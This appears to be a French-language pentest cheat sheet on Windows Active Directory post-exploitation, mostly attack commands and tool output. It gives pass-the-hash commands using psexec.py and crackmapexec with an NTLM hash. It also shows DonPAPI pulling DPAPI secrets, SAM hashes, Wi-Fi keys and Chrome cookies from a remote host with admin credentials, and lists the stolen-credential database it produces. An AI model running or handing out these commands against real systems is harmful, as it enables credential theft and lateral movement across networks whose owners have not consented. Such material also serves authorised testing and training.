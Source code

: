 ```
```

```
└─# psexec.py medic.ex/administrator -H aad3b435b51404eeaad3b435b51404ee:e390e451a30390791e9ad7cdb65a7d1c -dc-ip 212.129.29.186
```

```
└─# crackmapexec smb 212.129.29.186 -u administrator -H aad3b435b51404eeaad3b435b51404ee:e390e451a30390791e9ad7cdb65a7d1c --local-auth
```


## Recuperer des identifiants sur un post compromis
- Une des fonctionnalités de Windows, appelée DPAPI (Data Protection API), permet d’enregistrer de manière chiffrée des informations sensibles sur un ordinateur. Cette fonctionnalité est utilisée par plusieurs composants de Windows et logiciels. C’est le cas des tâches planifiées, des mots de passe des réseaux Wi-Fi ou encore des mots de passe de Chrome. Évidemment, si Windows est capable de les utiliser pour automatiquement se connecter à un réseau Wi-Fi, par exemple, ça veut dire que toutes les clés sont à portée pour que vous puissiez les extraire.
L’outil `DonPAPI` a été créé pour ça. Son but est d’extraire les secrets DPAPI (mais pas que) sur un ensemble de machines à distance. Il faut que vous soyez administrateur local des postes ciblés.
```
└─# DonPAPI medic.ex/pixis:P4ssw0rd@212.129.29.186

INFO Loaded 1 targets
INFO [212.129.29.186] [+] DC01 (domain:medic.ex) (Windows 10.0 Build 20348) [SMB Signing Disabled]
INFO host: \\41.242.89.149, user: ANONYMOUS LOGON, active:     2, idle:     3
INFO Adding connected user ANONYMOUS LOGON from \\41.242.89.149
INFO host: \\41.242.89.149, user: pixis, active:     1, idle:     0
INFO Adding connected user pixis from \\41.242.89.149
INFO [212.129.29.186] [+] Found user Administrateur
INFO [212.129.29.186] [+] Found user All Users
INFO [212.129.29.186] [+] Found user Default
INFO [212.129.29.186] [+] Found user Default User
INFO [212.129.29.186] [+] Found user phackndo
INFO [212.129.29.186] [+] Found user Public
ERROR SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
INFO [212.129.29.186] [+] SAM : Collected 4 hashes 
INFO [212.129.29.186] [+] Gathering DPAPI Secret blobs on the target
INFO [212.129.29.186] [+] Gathering Wifi Keys
INFO [212.129.29.186] [+] Gathering Vaults
INFO [212.129.29.186] [+] Gathering Certificates Secrets 
INFO [212.129.29.186] [+] Gathering Chrome Secrets 
INFO [212.129.29.186] [+]  [Chrome Cookie]  for .google.com [ CONSENT:None ]  expire time: Jul 01 2024 19:33:36
INFO [212.129.29.186] [+]  [Chrome Cookie]  for .google.com [ SOCS:None ]  expire time: Aug 01 2023 19:33:40
INFO [212.129.29.186] [+]  [Chrome Cookie]  for .microsoft.com [ MC1:None ]  expire time: Jul 02 2023 19:35:15
INFO [212.129.29.186] [+]  [Chrome Cookie]  for .microsoft.com [ MS0:None ]  expire time: Jul 02 2022 20:05:15
INFO [212.129.29.186] [+]  [Chrome Cookie]  for docs.microsoft.com [ MSFPC:None ]  expire time: Jul 02 2023 19:35:14
INFO [212.129.29.186] [+]  [Chrome Cookie]  for docs.microsoft.com [ MicrosoftApplicationsTelemetryDeviceId:None ]  expire time: Jul 02 2023 19:35:12
```
The output is .db
```
main: /home/bloman/donpapi.db r/w
sqlite> .tables
browser_version  connected_user   files            users          
certificates     cookies          groups         
compliance       credz            masterkey      
```